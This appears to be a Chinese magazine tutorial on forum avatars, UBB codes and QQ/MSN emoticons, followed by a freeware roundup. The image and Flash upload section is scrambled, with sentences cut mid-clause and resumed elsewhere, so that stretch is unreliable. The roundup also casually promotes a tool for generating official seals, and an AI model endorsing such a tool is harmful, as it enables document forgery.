用户也可以上传自己设置好的头像文件。在本地设置好头像的大小和格式后，单击“浏览”按钮，选择此头像文件，再单击“上传”按钮即可。若提示没有成功，说明图片太大了。选择重新上传时，可以使用SnagIt或者ACDSee修改图片大小。上传成功后，可以设置宽度和高度来定义头像显示大小。

> **小技巧：** 由于受论坛空间限制，有些论坛只开放了超级版主可以直接上传自己硬盘里的图片，而普通会员不能上传自己电脑里的图片。

- 3. 通过相册头像进行设置
首先，上传个性化图片到网易相册中，并取得其绝对地址。然后，在“自定义头像地址：”后面的文本框中，输入相册中图片的绝对地址：http://img.photo.163.com/-EQGWFp-ZVAU6ngcB89cow==/108649341010875795.gif。同时，根据头像大小设置宽度和高度，否则图片大小会发生变形。最后，单击“更新”按钮，头像已经更改了。

小技巧：如果头像文件大小超过论坛限制，头像将无法正常显示。同时，建议合理设置图片的高度和宽度，这样头像的显示效果将更好，但必须按照论坛规定的尺寸选择。另外，还可以选择支持动画的“.gif”格式，这样，头像就更生动了。

### 3. 论坛和博客签名的设置

设置个人资料时，一般论坛都会给出“签名”一栏，其作用在于说明用户的个人信息。设置图片和文字签名的方法如下。

- （1）将个性化图片上传到相册，如将上述“电脑爱好者俱乐部”图章上传到网易相册，并记下图片地址。
- （2）打开“用户控制面板”，进入“资料修改”，一般会有“签名”一栏，在这里，用户可以充分的展示自我。在标签的中间，插入图片代码，如: [img] http://img.photo.163.com/GFEf_tiABPTyAtzFLsrFLg==/62205969855221695.gif[/img]。
- （3）添加相应的文字信息，在论坛中发言时，就可以看到具有个性化的图片了，如图13所示。

小知识：UBB代码就是不允许使用HTML语法的情况下，通过论坛的特殊转换程序，以至可以支持少量常用的、无危害性的HTML效果显示。在论坛中，我们经常需要使用UBB代码来设置图片或发表文章，它是HTML的一个变种，最开始由Ultimate Bulletin Board（国外的一个BBS程序）采用，由于要求使用的编码很少，安全性高而且操作容易，尤其是对图片处理具有很大的帮助，因此，熟练使用UBB代码成为很多论坛用户的必备技能之一。



掌握了上述方法，在设置头像签名时，就可以轻松实现在标签的中间插入图片地址了。

### 4. 使用UBB代码发布图片

一般论坛都支持UBB代码，有些论坛在发帖子时，还提供了专用的UBB模式，通过使用相应的代码，就能够轻松地加入图片或进行简单的图片处理。在UBB模式中，点击“插入图片”按钮，在弹出的对话框中输入图片网址，即可轻松实现UBB代码操作，如图14所示。


小技巧：当我们需要插入网络上的图片时，在图片上点击右键，在弹出的菜单中选择“属性”，即可看到其绝对地址。拷贝这个地址，在需要引用时输入正确的地址即可。

为了便于用户更加灵活地使用相关方法，表1列出了常用的UBB代码与说明。需要注意的是：尽管不同论坛的使用方法大致相似，但也存在一些细微的差别，以下代码仅供参考，用户可以查看相关论坛的详细帮助说明。

表1 UBB代码参考表

| 代码 | 说明 |
| --- | --- |
| 1 | [b]粗体文字[/b]<br>粗体字 |
| 2 | [i]斜体文字[/i]<br>斜体字 |
| 3 | [u]下划线文字[/u]<br>下划线 |
| 4 | [color=red]红颜色[/color]<br>改变文字颜色 |
| 5 | [size=3]文字大小为3[/size]<br>改变文字大小 |
| 6 | [font=仿宋]字体为仿宋[/font]<br>改变字体 |
| 7 | [align=Center]内容居中[/align]<br>文字编排位置（right为右，left为左） |
| 8 | [url]http://blog.sina.com.cn/itcom[/url]<br>超级连接 |
| 9 | [email]cfantest@yahoo.com.cn[/email]<br>E-Mail 链接 |
| 10 | [quote]风之扬的博客[/quote]<br>引用一些人的帖子，只要剪切和拷贝然后按上面的例子套入就可以了。类似的代码还有[code][/code] |
| 11 | [img]http://www.test.cn/logo.gif[/img]<br>链接图像<br>[img=宽度,高度]http://www.test.cn/logo.gif[/img]<br>链接图像并限制大小，注意地址的“http://”这一部分要求在[img]后套入<br>[img=www.test.cn]http://www.test.cn/logo.gif[/img]<br>链接图像并指定图像链接 |
| 12 | [shadow=颜色,方向角,边界大小]阴影文字 |
| 13 | [glow=颜色,边界大小]光晕文字[/glow]<br>光晕文字 |
| 14 | [move]滚动文字特效[/move]或[marquee]移动文字[/marquee]<br>滚动文字特效 |
| 15 | [fly]飞行文字特效[/fly]<br>飞行文字特效 |
| 16 | [rm=宽度,高度]RM 文件地址[/rm]<br>在帖子里加入RM、RAM 等文件 |
| 17 | [flash=500,300]http://www.test.cn/pic/logo.swf[/flash]<br>自动让flash在帖子中显示，其中的数字为Flash的大小 |

在上面设置UBB代码的过程中，通过使用各种各样的颜色可以使界面更加丰富。如“[color=red]红颜色[/color]”也可以写成“[color=#FF0000]红颜色[/color]”。为了便于区分和记忆，现将常用的颜色代码列表如表2。

### 5. 在论坛和博客上传图片、添加Flash文件

通过上述介绍，我们已经可以熟练地插入相关图片了。一般来说，有直接上传本地图片和插入使用绝对地址等方法。上传本地图片时，选择相关文件后，点击“上传”| 颜色英文代号 | 颜色代码 | 颜色说明 |
|---|---|---|
| Black | #000000 | 黑色 |
| Silver | #C0C0C0 | 银色 |
| Gray | #808080 | 灰色 |
| Pink | #FFC8CB | 粉红 |
| Maroon | #800000 | 茶色 |
| Red | #FF0000 | 红色 |
| Purple | #800080 | 紫色 |
| Fuchsia | #FF00FF | 紫红 |
| Green | #008000 | 绿色 |
| Lime | #00FF00 | 亮绿 |
| Olive | #808000 | 橄榄 |
| Yellow | #FFFF00 | 黄色 |
| Navy | #000080 | 深蓝 |
| Blue | #0000FF | 蓝色 |
| Teal | #008080 | 青色 |
| Aqua | #00FFFF | 浅绿 |
| Orange | #FFA500 | 橙色 |
| Brown | #A52A2A | 褐色 |

Flash 文件的链接地址比较隐蔽，一般用户很不容易找到。下面是两种寻找 Flash 文件地址的方法：

- ①通过 Internet 临时文件查找地址
看到一个优秀的 Flash 作品时，首先把它从头到尾看一遍，然后利用 IE 的缓存找到刚才看过的 Flash，方法如下：
在 IE 的 “工具” 里选 “Internet 选项”，在 “Internet 临时文件” 框里点 “设置”，然后选 “查看文件”，所有浏览过的网页包括 Flash 都保存在这里。直接点击 Flash 文件，会弹出一个 IE 窗口播放该文件，该窗口的地址栏就是要找的 URL 地址。

- ②直接在网页源文件中查找地址
在显示 Flash 文件的网页空白处点击右键，在弹出的窗口中选择 “查看源文件”，这时会出现一个以 .txt 为后缀的文件。因为 Flash 文件的后缀是 .swf，因此，可以直接在源文件中查找 “.swf”。在记事本上方，单击 “编辑” 菜单下的 “查找” 命令，在 “查找内容” 里输入 “.swf”，这 Flash 的网址就会被提示了。如果出现的是相对地址，可以直接在浏览器地址栏中加上绝对地址的其他部分，即可正常显示。

（2）寻找 Flash 文件地址
Flash 文件的上传比较简单，但是，问题的难点在于：即可。当然，上传之前，首先要考虑大小是否超出范围、格式是否符合要求、用户是否具有上传权限等。上传完毕，可以直接显示图片或者引用其地址进行适当排版。

- （1）上传本地图片
下面，以新浪博客的上传方法为例。新浪博客提供了两种上传本地图片的方法，分别介绍如下：

- ①通过控制面板上传
登录博客后进入 “控制面板”，在左侧导航栏中可以找到 “个人图片册”，打开其中的 “上传图片” 页面，在右边会出现上传界面。点击 “浏览” 按钮，选择本地文件目录并找到相应的图片。一次可以上传 10 张图片。点击 “上传” 按钮，图片就上传到博客相册内了。需要时直接引用地址即可。

- ②利用图片剪切板上传图片
点击已经发表的文章，在编辑框下面点击标题栏打开 “图片剪切板”。点击 “浏览” 按钮，弹出本地文件目录，选择需要上传的图片。设置图片剪切板以后，把光标移至准备插入图片的地方，点击 “插入图片” 图标并输入本地图片链接，把图片放到文章内。文章发表后，所有图片剪切板内的图片都上传到了专门的 “文章配图相册”，如图15所示。

通过上面的方法，可以很快找到地址。新建一个主题后，单击 “插入 Flash” 图标，在对话框中输入文件地址并回车即可发表。

此外，也可以在 SnagIt 或 Windows 画图等软件中，直接新建并粘贴文件。这样，通过 QQ 截取的图像就保存起来。

## 三、应用篇：QQ、MSN 图片攻略

在网络生活中，除了论坛发帖，通过 QQ、MSN 聊天交流也是一个很重要的部分。在聊天的过程中，我们经常会遇到很多恶搞版或搞笑版 QQ、MSN 表情动画，或者会看到一些独具个性的图标或表情。下面，讲解这些表情或图标的制作方法。

### 1.联袂出击：巧用 QQ 与 ACDSee 获取图片

在聊天的过程中，可以利用 QQ 的 “捕捉屏幕” 功能，直接截取图像发给好友观看。此外，通过 QQ 与 ACDSee 的巧妙配合，可以产生意想不到的效果。具体方法如下：

- （1）设置截图热键
首先打开 QQ 的系统设置窗口。点击左侧 “热键设置”，在右侧的 “捕捉屏幕” 区域，可以看到系统默认的热键为 “Ctrl+Alt+A”。

- （2）截取图片
选择需要截取图像的界面，按下 “Ctrl+Alt+A” 热键，这时鼠标指针将变为彩色，移动鼠标到想要截取图像的位置，按住左键拖动到合适的位置；然后，双击鼠标，截取的图像直接被复制到系统的剪切板中。现在，就可以直接将图片发给好友了。

- （3）获得截取的图像
打开 ACDSee，点击工具栏上 “获得” 按钮，再点击下面的 “剪切板”，从弹出的窗口里确定保存图像的位置，选择一种图像格式并为图像命名后，点击 “保存” 即可。


## 2.简单处理：让影片变为QQ动画表情

通过QQ截图功能，可以直接把影片播放时的动态图像变为静态图片，还能制作出动态QQ表情。步骤如下：

- 1. 利用“静态影片截图”截取单张视频画面
打开QQ聊天窗口，在工具栏上单击“捕捉屏幕”下拉菜单，选择“静态影片截图”，然后点击需要截取的影片播放窗口，按下键盘上的“Scroll Lock”键，截取的图片就显示在聊天窗口中。直接使用右键点击要发送的图片，选择“图片另存为...”命令保存即可，当然也可到QQ临时截图文件夹中查看，如图16所示。



- 2. 利用“动态影片截图”截取的动态图像
首先，打开QQ聊天窗口，在工具栏上单击“捕捉屏幕”下拉菜单。然后，选择“影片截图设置”，打开“影片截图设置”对话框。在这里，可以设置截取的动态图片宽度、每次捕获的动态图片帧数和捕获每帧画面的时间间隔。如果要获得最佳的幻灯片播放效果，还可以设置播放速度，使之更加流畅，如图17所示。



- 3. 查看并保存截取的动态影片
现在，所截取的动态图像会以设定的速率在聊天窗口中进行播放，在图片上单击右键，在弹出的菜单中选择“添加到QQ表情”菜单。或者直接将图像保存为GIF格式动画图片。如果需要将其截取为单张图片，依据“静态影片截图”的方法操作即可。

> > 小知识：很多QQ表情动画都采用了GIF动画格式。所谓GIF动画，实际上就是在一段时间内显示的一连串图像，相邻两副图像之间有着轻微的变化。当连续、快速地播放这些图像时，就会产生运动的感觉。

## 3.巧用简易动画软件制作QQ表情

软件下载地址：http://www.skycn.com/soft/2419.html

为了更加突出自我个性，不少用户希望能够自己独立制作QQ动画表情。但过于专业的动画软件往往让用户望而却步。通过动画制作软件GIF Movie Gear，我们只要准备几个图像素材就可以快速制作出GIF动画来。下面，通过简单步骤制作QQ表情。

- 1. 选择动画素材
动画素材可以灵活选择。打开QQ表情窗口，选择“跳”和“足球”等表情图片，将其放到对话窗口。需要时，可以通过QQ截图键（默认Ctrl+Alt+A键）截取。此外，也可以通过MSN等软件选择更加丰富的表情。

- 2. 设计关键帧图片
打开Windows画图软件，点击“图像/属性”选项，弹出“属性”窗口，设置固定的“宽度”和高度，如分别设置为75和65，单位为像素。然后，点击“编辑/粘贴”选项，将所截取的表情图片粘贴到画布上，通过位置的变换，依次保存这些图片。本例共有4张图片。动画剧情为：首先是QQ仔看到足球，然后踢球，最后进球并欢呼。

- 3. 制作动画
打开GIF Movie Gear程序，点击“打开”选项，在弹出的对话框中找到并选中刚才制作的4张图片，点击“打开”按钮即可。现在，就可以看到QQ表情动画效果了，如图18所示。



- 4. 动画参数的设置与优化
通过上面的简单组合，还不能达到比较满意的效果。因此，需要调整播放速度和循环设置。点击“帧”菜单下的“全局属性”选项，在弹出的“属性设置”窗口中，点击“全局帧”选项卡，调整“动画”栏中“每帧持续1/100秒”选框中的数值，就可以改变动画播放的速度。此外，还可以切换到“动画”窗口修改播放次数。

- 5. 清除背景色
在“全局帧”窗口，勾选“透明”选框，点击“编辑”按钮，弹出“选择透明索引色”窗口，在列出的颜色中选中白色，点击“确定”即可。这样QQ动画表情就使用透明背景了。

- 6. 保存表情动画
点击“动画”菜单下的“优化动画”选项，在弹出的菜单中根据需要选择优化项目。然后单击“文件”菜单下的“将GIF动画另存为”选项，选择文件名和保存路径，将保存类型选择为“动画”选项即可。

小知识：在使用各种个性化表情时，一定要首先杀毒保证安全。现在，网络上公布的许多QQ表情软件都有病毒，因为黑客可以通过这些表情图片悄悄潜入系统种植木马。防范通过QQ自定义表情来种植木马的关键就是及时为系统打上漏洞补丁。

## 4. 让MSN和QQ共享表情图片

现在，很多用户都同时拥有QQ和MSN，而且两个软件都有丰富的表情图片，如果能够共享这些图片就别有一番滋味了。具体方法如下：

- （1）在MSN中选一个联系人，打开聊天窗口。点击“工具”菜单下的“我的图释”，在弹出的窗口中单击“创建”按钮，如图19所示。


- （2）在“添加自定义图释”窗口中，单击“查找图片”将文件路径定位到QQ表情的目录。其中，QQ所在的目录是“安装目录\Face\”，自定义表情目录是“安装目录\QQ号码\CustomFace”。

- （3）选择完毕，回到“添加自定义图释”对话框。然后在第二项的文本框中输入调用表情的快捷键，最后点“确定”。这样，使用MSN聊天时，点击“选择图释”按钮即可看到QQ表情。

通过上面的典型应用，我们可以在日常操作中举一反三，解决许多图片处理方面的问题。下面，通过一个综合案例，使图片处理更加容易。

## 四、典型案例篇：通过网站处理图片

网站地址：http://www.eoool.com

EOOOL是一个方便、实用的图片制作网站，通过它可以方便地制作和处理QQ头像、MSN头像、论坛头像、论坛签名、博客广告、通讯工具（邮件、MSN、QQ、书签）等。而且，用户不需要掌握任何制图软件，通过几个简单的步骤，就可以给照片实现许多特效，如加上漂亮的相框、生成个性化头像、给邮件制作精致标签、把QQ靓号做成图片等，功能十分丰富。制作过程简单介绍如下：

- （1）选择服务
进入网站：http://www.eoool.com/Sevice.aspx?TypeID=12，点击后面的小三角形，选择自己想要制作的图片类型。在本例中，选择“Msn 头像—96 × 96”，然后，点击“制作图标”按钮开始下一步编辑，如图20所示。



- （2）编辑图片
可以自己准备图片，也可以选择系统提供的图片。其中，系统提供了丰富的图库资源，包括：卡通、人物、艺术、宠物、静物等类别，每个大类下面又有很多种小类。现在，根据所要设计的主题选择一张图片，点击该图片进入下一步。

- （3）剪切图片
注意其中的黄色边框，可以用鼠标来控制剪切喜欢的图片，或者覆盖全部图片，系统会自动缩减成需要的比例。设置完毕，单击“确定剪切”按钮。

小技巧：系统认定的剪裁框颜色为黄色，旁边的“当前剪裁框颜色”栏可以进行换色。“剪裁后图标边框颜色”栏可以自己设定喜欢的边框颜色。另外，系统默认的边框颜色是白色。

- （4）加入文字
在“添加文字栏”，用户可以添加任何想要的文字，它们会在图片中显示出来。如果需要调整文字的位置，还可以用鼠标按住图片文字上下移动，直到满意为止。这样，经过处理后的个性化图片就生成了！如果要添加绚彩效果，先不要点击“保存图片”按钮。现在，点击“添加文字”按钮，进入美化阶段。

- （5）加入绚彩效果
在这个步骤中，选择自己喜欢的效果和相框，直到满意为止。现在，单击“保存图片”按钮，即可将图片保存到本地，如图21所示。



通过上述多种案例和多种技巧的讲解，可以看到，图片处理的方法还有很多，我们可以灵活选择、灵活运用。需要注意的是，在图片处理的过程中，一定要注意多种软件的巧妙配合。例如，在截取图标的过程中，也可以通过 SnagIt 的图标截取器直接获取，操作起来也更加方便。在使用 ACDSee 这个软件的过程中，用户也应根据自身需要选择合理的版本，达到软件功能和使用效率的平衡。这样，整个图片处理过程也将更加方便、快捷。总之，我们应该合理利用身边的资源，做到“信手拈来”，从而创造出更加具有个性化的优秀作品。

## # 一切都均有可能——奇妙软件面面观

文 / TMG zcy

你常用的软件有多少种？你知道的软件中有哪些是能够吸引你的？你与周围的朋友有没有曾经一起探讨过一些关于软件的见解和看法呢？不论答案肯定与否，如今种类庞杂的软件充满了我们的现代生活，也确实方便了我们学习和娱乐等众多方面的需要，而事实上，还有许多非常奇妙的软件是相当出色和诱人的，它们绝对是在走着一条非比寻常的路线，保证让你看好哦！下面就给大家介绍几类奇妙的软件，可以让你过足瘾……

## 一、成长的足迹

**软件名称:** Baby Diary 2.0

**简单描述:** 宝贝日记——时尚父母必备

**软件大小:** 4.08MB

**下载地址:** www.onlinedown.net/soft/38070.htm#download



**软件介绍:** 这是一个为时尚爸爸妈妈准备的软件，它可以直观地以电子版的形式记录宝宝的成长过程，不论是文本信息还是声音文件，或是视频资料都可以经菜单存储，有了它，宝宝的第一声啼哭、第一次微笑，直到咿呀学语、进幼儿园都可以被记录下来，成为全家人的美好回忆。它还可以让你自行添加分类信息，并具备备份功能，可以依据你关于宝宝体重、身高等记录自动生成一个发育曲线图，让你更好地了解和分析孩子的健康状况。

**推荐指数:** ★★★★☆

**软件名称:** 轻轻松松写简历 8.2

**简单描述:** 让你求职变得更简单

**软件大小:** 3.08MB

**下载地址:** www.onlinedown.net/soft/13446.htm#download

**软件介绍:** 一份吸引人的简历往往是成功求职的捷径，



这款软件中附带的简历简洁大方、风格独特，你可以有多种模版进行选择，而且附有数百种封面设计，有了它你不但可以节省时间，还可以做得更出色，轻轻松松写简历让你与成功变得更近。

**推荐指数:** ★★★★☆

**软件名称:** 职位搜 1.0

**简单描述:** 最新最快的职位搜索

**软件大小:** 2539KB

**下载地址:** www.onlinedown.net/soft/53477.htm



**软件介绍:** 找工作是一件费时又费力的事情，你要整天在各个招聘网站上痛苦地徘徊，寻找适合的职位信息、并亲自投递一份又一份的简历，这可的确是一件考验人耐性的事情，而职位搜则可以做到一次性看到国内一百多家主流网站发布的职位信息，而且它分类清晰，又可以自定义搜索条件，还能撰写并群发简历，甚至可以脱机工作，真的是找工作的好帮手。

**推荐指数:** ★★★☆☆

**软件名称:** hohojob2.1.1.630

**简单描述:** 一款用于求职的智能软件

**软件大小:** 181KB

**下载地址:** http://www.hb168.net.cn/soft/e/a2/200607/2949.html



**软件介绍:** 它集职位搜索、职位收藏、简历投递功能于一体，使用者可以随意选择职位搜索的形式和途径，界面整洁大方，它可以将全部的中文网站的职位信息包揽其中，省去了求职者盲目登录求职招聘网站的麻烦，它还设有职位收藏夹，方便用户进行比较和多方面考虑，它的成批量发送个性化简历功能更是令人欣慰，如此一来，让你的求职更快捷、更轻松，何不赶快来试一下呢？

**推荐指数:** ★★★☆☆

## 二、我设计，我喜欢

**软件名称:** Dream2000 5.2

**简单描述:** 一套经典的立体服装设计辅助系统

**软件大小:** 7.92MB

**下载地址:** www.aspxz.com/soft/softdown.asp?softid=47622



**软件介绍:** 这是一套既能进行平面设计又可以进行立体设计的软件，还有自动动画展示功能，它的设计操作非常简单，而且效果也好，有了它，你就不必再惊叹于大师的设计杰作了，因为你自己就做得很棒，用这款 Dream2000 软件可以让你大胆地体验设计的魅力，还可以为自己和家人、朋友随意设计个性的服装，也可以为你上街购物提供参考，而且它的立体设计效果加上电子模特的辅助，看上去真是惟妙惟肖。

**推荐指数:** ★★★☆☆

**软件名称:** 我家我设计 5.0

**简单描述:** DIY 自己的梦想家园

**软件大小:** 59,829KB

**下载地址:** download.it168.com/03/0306/42487/42487_4.shtml



**软件介绍:** “我家我设计”具有独特的家居方案设计功能，使用方便、简洁，它的设计比例规范、还能精确地计算材料的用量，免去了装修房子带来的材料的浪费现象，更能帮你选择家具的品牌和尺寸，软件三维的设计理念可以让使用者以一个更直观、更形象的视角来为自己的家居进行设计。此外，你不用出门，在家里就可以了解最新最时尚的潮流和设计理念，可以说，它为我们的生活增添了不少的乐趣，自己动手，感觉就是不一样。

**推荐指数:** ★★★★★

**软件名称:** FillToy 1.8

**简单描述:** 可以尽情发挥填色的创意

**软件大小:** 4417KB

**下载地址:** test.newhua.com/soft/38579.htm#download



**软件介绍:** 这个软件操作简单，画面清晰，颜色鲜艳，而且使用起来十分方便，下载图形包之后就可以随意地进行填色，如果孩子操作这款软件的话，还可以很大程度地激发孩子的兴趣，对培养孩子的设计构思和创新思维有着很大的益处，也可以说，这款老少皆宜的软件为生活增添了一丝鲜艳的色彩。喜欢绘画的朋友更应该早点动手，让我们都来看看你的色彩搭配水平到底如何。

**推荐指数:** ★★★☆☆

**软件名称:** 极速公章生成 V2.5

**简单描述:** 一个快速生成公章的软件

**软件大小:** 33KB

**下载地址:** www.ninesky.net/down/softdown.asp?softid=19817

**软件介绍:** 这是一款最新版本的公章生成软件，它虽然很小，但是使用起来非常方便简捷，生成公章的时间更加是快得惊人, 此外, 它还可以设置一个主要名称和两个附加名, 有了它, 我相信可以减轻不少人的工作压力哦。推荐指数:★★★☆☆

-   软件名称: Ulead GIF Animator V5.05
-   简单描述: 自己也可以做个性GIF图像
-   软件大小: 9984KB
-   下载地址: http://www.skycn.com/soft/2441.html#download

软件介绍: 和朋友在线聊天的时候, 你是不是也和很多人一样总是喜欢发送一些GIF动画呢? 可是如果动画千篇一律就变得没有意思了, 于是我们经常会在论坛或其他网页上搜寻一些新鲜的动画, 那么如果说你自己也可以亲自设计动画的话, 你会感觉如何呢? 应该会很惊喜吧。Ulead GIF Animator 就是一款可以让你自己设计创作GIF动画的软件, 它操作简单, 能将 AVI 文件转成动画GIF文件, 而且还能将动画GIF图片最佳化。有了它, 完全可以帮你实现展示个性的梦想, 从此我们的聊天平台上就会出现更多更炫的动画, 真是好热闹、好期待啊!推荐指数:★★★★☆

## 三、出行帮你忙

-   软件名称: 极品时刻表
-   简单描述: 车次查询软件之极品
-   软件大小: 627K
-   下载地址: download.pchome.net/industry/transportation/download_1021.html

软件介绍: 出行前查询车次几乎成为大家的例行公事, 但是, 庞杂的网络和电话查询真的让人头疼不已, 但是, 如果有了极品时刻表, 查询车次真的就一下子变得超级轻松, 我本人可就是它的受益者哦, 真的是太简单了, 车次、发车和到站时间、里程数、还有车票价格, 就连每一个车次的停靠站信息也一应俱全, 真的是名不虚传, 而且它还是一款相当方便实用的软件, 运行完全不需要网络支持, 不信, 就来试一下吧......推荐指数:★★★★☆

-   软件名称: 易画电子地图 3.1
-   简单描述: 智能化的电子地图
-   软件大小: 61MB
-   下载地址: www.ddooo.com/softdown/20090.htm

软件介绍: 这是一张智能化的电子地图, 它不但可以帮你设计出行的具体路线, 还可以准确掌握路线的长短并将其打印出来, 如果是自己驾车旅行的话, 那就更为方便快捷了, 也可以说它是在为你量身订造, 可以帮你找到最佳的行车路线, 还可以提醒你路过的地方是哪里, 哪怕是公路交口等细微的环节, 此外, 全国各地的旅游景点统统都包括在内, 使用者还可以自行加站点标记, 最新的各省区、市、镇、乡的地图还能随意的放大或缩小, 真是既灵活又实用。推荐指数:★★★☆☆

-   软件名称: XDeskWeather 4.5.1.818
-   简单描述: 桌面天气秀
-   软件大小: 5447KB
-   下载地址: www.onlinedown.net/soft/26588.htm#download

软件介绍: 我们日常接触的天气预报往往是国内或是世界主要城市的近两三天的天气预测, 可如果是几天的出行, 恐怕我们关心的就不仅仅是近两三天的天气了, 而且, 如果是出国旅行的话, 恐怕就更难达到期望值了, 而这款软件恰恰就做到了这一点, 不但信息十分详细且省去了在网上大海捞针般的盲目查询, 此外, 它还是国内下载量最大、最受欢迎的桌面天气预测的软件, 是个动态十足的桌面装饰, 还可以随你的心情和喜好进行个性化改造, 真是桌面也动感。推荐指数:★★★☆☆

## 四、语言文字的魅力

### 软件名称: Ougishi 4.00 Lite Beta 30
-   简单描述: 书法字体大变身
-   软件大小: 1146KB
-   下载地址: http://www.onlinedown.net/soft/39248.htm#download

软件介绍: 从来没想过借助鼠标的随意涂鸦竟然可以变成珍贵的“名家真迹”，这款软件就可以帮你实现梦想。它支持手写的输入方式，操作容易，不到两秒钟就可以轻松上手，它还设有行书、草书以及王羲之、苏轼的笔体等众多风格，你可以随意挑选，它甚至可以变换显示彩色字体并直接打印出来，而你只动动鼠标就好了，保证让你能够充分感受到中国书法的魅力！
推荐指数: ★★★★☆

### 软件名称: Font Fitting Room Deluxe 2.8.6.6
-   简单描述: 字体试衣间——时尚字体任你选
-   软件大小: 2724K
-   下载地址: http://www.onlinedown.net/soft/46046.htm
-   软件介绍: 电脑里的常用字体千篇一律，很多人都觉得找不到一点个性的色彩和时尚的元素，而 Font Fitting Room Deluxe 软件就可以帮我们摆脱这种尴尬的境况，它可以对各种字体进行预览和管理，支持几乎所有的字体和文件格式，还省去了系统安装或卸载诸多字体的麻烦，它的快速预览和管理功能的确可以为我们省去不少的麻烦，不信，就来试一试吧，从此，你的文字将变得个性而时尚，真是无人可比，是一件能让你赚足面子的事儿哦。
推荐指数: ★★★★☆

### 软件名称: EvilLyrics V0.1.8 build 142
-   简单描述: 歌词搜索工具，娱乐与学习同在
-   软件大小: 741K
-   下载地址: http://download.enet.com.cn/html/050412006103101.html

软件介绍: 一边听英语歌曲，一边看英文歌词，应该是一种很不错的学习英语的途径，EvilLyrics 就能够自动在网上搜索和下载英文歌曲的歌词，超过1500万首英文歌曲的歌词库完全可以使你达到满意的效果，以前，中文歌曲可以达到这样的效果，如今，英文歌曲一样能行，你是否还在因为千千静听中没有英文歌词而彷徨呢？现在就来下载并使用 EvilLyrics，体验它的独到之处吧。
推荐指数: ★★★★☆

### 软件名称: 电子新华字典 2.3
-   简单描述: 电脑上的新华字典
-   软件大小: 11892KB
-   下载地址: http://www.onlinedown.net/soft/28975.htm

软件介绍: 谁都知道新华字典是一本极具有权威性的书籍，也是人们学习时的必备，但是随着技术的进步，我们越来越多地接触计算机，从传统的印刷字体中走了出来，而我们的工作时间也大部分集中在电脑前，因此，翻阅新华字典就变成了一件很兴师动众的事情，而现在，电子新华字典则弥补了这一缺憾，相比较传统的书籍而言它更实用、方便和快捷，电子新华字典共收录了7028个汉字，还增添了英文解释的内容，光是这一点就为它增色不少，吸引着更多的人群来使用。
推荐指数: ★★★★☆

### 软件名称: 词霸豆豆 V2.0.0.1
-   简单描述: 实用在线词典查询工具
-   软件大小: 978KB
-   下载地址: http://www.skycn.com/soft/18102.html
-   软件介绍: 词霸豆豆有别于其他的翻译软件，它体积小，安装文件还不到1MB，而且它全新的取词形式使取词...

## 五、多媒体制作

### 软件名称: 光影魔术手 nEOiMAGING V0.24
-   简单描述: 改善数码照片的领军者
-   软件大小: 4.75KB
-   下载地址: www.crsky.com/soft/6260.html

软件介绍: 光影魔术手不但可以进行数码照片的缩放、裁剪以及旋转等，还可以使数码照片的颜色更鲜明亮丽，光线更突出、人物的肤色更漂亮，此外，它还可以起到修正色彩偏差、增加特殊效果的功能，如晚霞、天空、怀旧等渲染功能，使用者还可设定5个签名及背景，总之，它真的就像一双捕捉光与影的魔术手一样，让数码照片大增光彩，好了，准备就绪，让我们一起来变魔术吧。

推荐指数:★★★★★

### 软件名称: DCEhance
-   简单描述: 一款能够使模糊照片变清晰的软件
-   软件大小: 344.22KB
-   下载地址: http://www.cpcw.com/download/downView.php?downID=212

软件介绍: 我们经常遇到类似的情况，出去游玩拍来的照片有一些是模糊的，但是因为景色很美或是很有纪念意义，这就很难会令我们觉得没有遗憾，丢掉了不舍得，可是模模糊糊实在是看着很不舒服，现在我们就不用担心了，DCEhance就能够弥补这些缺憾，所有照片都可以变得清清楚楚的，大家快来尝试一下吧。

推荐指数:★★★☆☆

### 软件名称: Camtasia Studio 4.0.1
-   简单描述: 一款专门捕捉屏幕音影的工具软件
-   软件大小: 34292KB
-   下载地址: http://www.onlinedown.net/soft/15179.htm#download

软件介绍: 它能够输出 AVI、GIF、RM、WMV 及 MOV 等格式，是一款专业的录制软件，还采用了 T.SCC 的编码算法，因此录制的视频文件体积小、质量高，还能克服以往录制的视频文件过大而不易传送的缺点，它可以进行屏幕录制、声音录制以及录像合成、后期处理和视频播放，压缩视频文件、剪切、添加专场等都可以手到擒来；有了它，你可以轻松地制作你的视频文件，轻松从桌面录制你的屏幕以及 PowerPoint 幻灯等，如果你是一位市场销售人员，Camtasia Studio 更可以帮你创建引人注目的视频，让你的公开演示更成功，取得优秀的成绩。

推荐指数:★★★★☆

### 软件名称: FaceonBody 2.2.1
-   简单描述: 随意拼接，想和谁合影就和谁合影
-   软件大小: 1061KB
-   下载地址: http://www.onlinedown.net/soft/47025.htm

软件介绍: 一款超级搞笑的软件，娱乐或是恶搞都可以随心所欲，不用走出家门就可以与明星随意合影，想怎么剪就怎么剪，想怎么拼就怎么拼，尽管你与他毫不相干，但却可以通过 FaceonBody 达到零距离的接触，而且它操作起来十分简单，提示语言简洁明确，这下，终于可以实现和偶像合影的梦想了，而且怎么摆 pose 都听我的，真的太酷了！

推荐指数:★★★★★

### 软件名称: AVConverter MP3 Converter Pro V4.2.12
-   简单描述: 全格式音频转换工具
-   软件大小: 545KB
-   下载地址: http://www.xdowns.com/soft/softdown.asp?softid=30659

软件介绍: 面对格式混杂的媒体文件，我们在使用时往往会遇到不必要的麻烦，而有了这款音频转换软件，我们就可以变轻松许多，它支持AIFF、AU、MP3、MPA、RA/RAM、SND、WAV、WMA、ASF、AVI、MOV、MP4、VCD DAT、（MPEG-4）、MPG（MPEG-1和MPEG-2）、RealMedia RM/RMVB、DVD VOB、WMV等众多格式，而且都可以把它们转化为MP3、WAV、AVI、WMA、OGG的目标格式；即便是声音文件，也一样可以预览和试听，此外，它的批量转换功能也是十分强大的，最重要的是，它使用简单，媒体文件的格式转换速度也是相当的惊人。

推荐指数:★★★★☆

## 六、信息安全最重要

### 软件名称: Doc Scrubber
-   简单描述: 为文档隐私加锁
-   软件大小: 820KB
-   下载地址: http://www.javacoolsoftware.info/downloads/docscrubbersetup.exe

软件介绍: 这款软件应该说是保护个人隐私的好帮手，因为我们频繁使用的Word文档可以经过查看属性，从“摘要”标签页内发现作者的名字以及文件的创建时间等个人信息，这在无形当中就造成了个人信息及隐私的泄露，那么，这个问题应该如何来解决呢？其实并不难，Doc Scrubber就完全可以帮你搞定，它可以将你的个人信息全部或部分清除掉，保证你的个人信息不被泄露。

推荐指数:★★☆☆☆

### 软件名称: Upasslock
-   简单描述: 用U盘安全锁定计算机
-   软件大小: 174KB
